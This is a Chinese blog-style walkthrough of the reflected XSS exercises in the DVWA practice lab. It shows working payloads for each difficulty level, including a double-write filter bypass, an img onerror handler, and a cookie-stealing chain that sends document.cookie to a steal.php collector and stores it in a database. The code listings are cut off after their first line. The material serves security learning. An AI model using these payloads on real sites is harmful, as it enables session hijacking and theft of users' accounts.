








Low
代码复现如下：
1 | <?php |
当我们GET一个name值以后，服务器毫无过滤的通过echo输出我们GET的name值，而如果我们输入的是一串代码，则这串代码通过echo就会被执行，这就是反射型的xss漏洞，我们可以通过GET方式输入一串js代码构造一个注入js代码的网页，当受害者访问这个url时，js代码将会自动实现，从而达到恶意攻击目的
比如我们输入
1 | <script>alert('xss')</script> |

于是我们可以利用这个xss漏洞获取服务器的cookie值，然后将cookie值存入数据库
先创建一个存放cookie的数据库
在mysql命令行输入：
1 | create database dvwacookie; |
然后在编写一个cookie.js的脚本

这个脚本作用是创建隐藏表单，表单提交到steal.php，提交的内容是cookie值
接下来编写steal.php，自然就是将提交cookie值写入数据库里了
steal.php代码:
1 | <?php |
然后回到存在xss漏洞的网页，通过GET传入name值
1 | <script src=cookie.js></script> |
查看数据库

成功获得cookie值
Medium
代码复现如下：
1 | <?php |
源代码利用了str_replace函数对script标签进行了过滤
不过没关系，因为函数只执行了一次，所以用双写的方法就可以很轻松的解决
输入
1 | <s<script>cript>alert('xss')</script> |

之后跟low关卡一样，输入
1 | <s<script>cript src=cookie.js></script> |
获得cookie值

High
代码复现如下：
1 | <?php |
这关利用了一个正则匹配过滤函数，i表示大小写，也就是以<开头，以t结尾的字符串，只要中间按顺序包含<script，则会立刻被过滤掉，之前双写绕过过滤的方法在这里行不通
绕过方法是采用触发onerror事件来执行javascript代码
onerror事件会在文档或者图像加载过程中发生错误时触发
例如，我们输入
1 | <img src=# onerror=alert(“xss”)> |

果然，加载图片时发现不存在这个图片发生错误所以触发了onerror事件，然后执行了alert(“xss”)代码
那么我们再考虑怎么像之前两关一样获得cookie值
之前是通过script标签的src属性引用外部的cookie.js文件，将cookie值以POST形式传入steal.php，再将POST的cookie值写入数据库
但是很明显这关对script标签做了正则过滤，只要我们输入含有这几个字符，都会被过滤掉，所以这里可以用location.href跳转链接到steal.php，将cookie值写入数据库，所以这里只能用GET方式将cookie值传入steal.php
于是输入
1 | <img src=# onerror=(location.href=”http://127.0.0.1/demo/xss(reflected)/steal.php?data=”+document.cookie)> |
但是结果却是

为什么呢
仔细检查发现我们输入里面
1 | <img SrC=# oneRror=(locatIon.href=”httP://127.0.0.1/demo/xss(reflected)/steal.php?data=”+document.cookie)> |
大写字母构成了<script，所以被过滤掉了
所以我们可以采用先获得cookie值，然后将cookie值传入steal.php

输入
1 | <img src=# onerror=(alert(document.cookie))> |
在将这个cookie值传入steal.php
还有种方法是对某个关键过滤字符进行html编码，但是我亲测不行，不知道什么原因，还望大神指点原因